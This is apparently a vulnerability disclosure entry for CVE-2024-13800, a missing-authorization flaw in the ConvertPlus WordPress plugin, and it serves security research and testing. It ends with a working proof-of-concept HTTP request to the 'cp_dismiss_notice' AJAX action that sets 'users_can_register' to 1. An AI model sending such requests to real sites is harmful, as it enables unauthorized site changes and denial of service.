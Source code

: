 # CVE-2024-13800
Popup Plugin For WordPress - ConvertPlus <= 3.5.30 - Missing Authorization to Authenticated (Subscriber+) Limited Options Update

# Description

The ConvertPlus plugin for WordPress is vulnerable to unauthorized modification of data that can lead to a denial of service due to a missing capability check on the 'cp_dismiss_notice' AJAX endpoint in all versions up to, and including, 3.5.30. This makes it possible for authenticated attackers, with Subscriber-level access and above, to update option values to '1' on the WordPress site. This can be leveraged to update an option that would create an error on the site and deny service to legitimate users or be used to set some values to true such as registration.

## Details

- **Type**: plugin
- **Slug**: convertplug
- **Affected Version**: 3.5.30
- **CVSS Score**: 8.1
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:H
- **CVE**: CVE-2024-13800
- **Status**: Private

**Notes**

It only puts a 1 in the database so you can only put in a 1 in `users_can_register`


POC
---

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: kubernetes.docker.internal:5555
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 50
Origin: http://kubernetes.docker.internal:5555
Connection: keep-alive
Referer: http://kubernetes.docker.internal:5555/wp-admin/options-general.php
Cookie: wordpress_c4ed56a3aa31dfaae2a50e9003068198=superadmin%7C1746784004%7CMdf7LiwOfluHufzihPiyUftZsNV1BU1vziFSwkdD7gT%7C8cb19a315a9569e77d5be2bf7555f178a9edba2afbc32d1499b8cfd5552e28b9; wp-settings-1=product_cat_tab%3Dpop%26libraryContent%3Dbrowse; wp-settings-time-1=1742893819; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_c4ed56a3aa31dfaae2a50e9003068198=superadmin%7C1746784004%7CMdf7LiwOfluHufzihPiyUftZsNV1BU1vziFSwkdD7gT%7Cf4d35f828e20c240ecf95e5940bddf55741adc8048977e60afd45a178c003011

action=cp_dismiss_notice&notice=users_can_register
```
